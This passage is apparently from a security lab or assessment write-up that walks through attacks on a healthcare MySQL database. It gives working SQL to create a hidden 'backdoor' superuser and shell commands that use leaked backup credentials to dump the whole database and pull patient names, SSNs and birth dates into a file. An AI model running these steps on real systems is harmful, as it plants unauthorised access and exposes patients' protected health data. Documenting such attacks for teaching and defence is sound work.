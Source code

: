 5. **Create Backdoor:**
```sql
CREATE USER 'backdoor'@'%' IDENTIFIED BY 'secret_pass';
GRANT ALL PRIVILEGES ON *.* TO 'backdoor'@'%' WITH GRANT OPTION;
FLUSH PRIVILEGES;
```

---

### Scenario 3: Backup User → Data Exfiltration

**Attack Steps:**

1. **Discover Backup User:**
```sql
-- From compromised application or comments table:
Username: backup
Password: backup123
```

2. **Connect with Backup User:**
```bash
mysql -h target-host -u backup -pbackup123 healthcare_db
```

3. **Verify Privileges:**
```sql
SHOW GRANTS;
-- Result: SELECT, LOCK TABLES on healthcare_db.*
```

4. **Dump Entire Database:**
```bash
mysqldump -h target-host -u backup -pbackup123 \
  --single-transaction \
  --quick \
  --lock-tables=false \
  healthcare_db > complete_breach.sql

# File contains:
# - 50 patients with SSNs
# - 200+ medical records
# - All prescriptions
# - Billing information
# - User password hashes
```

5. **Extract Specific High-Value Data:**
```bash
# Create script to extract SSNs only:
mysql -h target-host -u backup -pbackup123 -N -B healthcare_db <<EOF
SELECT CONCAT(first_name, ',', last_name, ',', ssn, ',', dob)
FROM patients;
EOF > ssn_list.csv
```

**Impact:**
- Complete PHI breach
- Regulatory fines (HIPAA: up to $1.5M per violation category)
- Reputation damage
- Class action lawsuits

---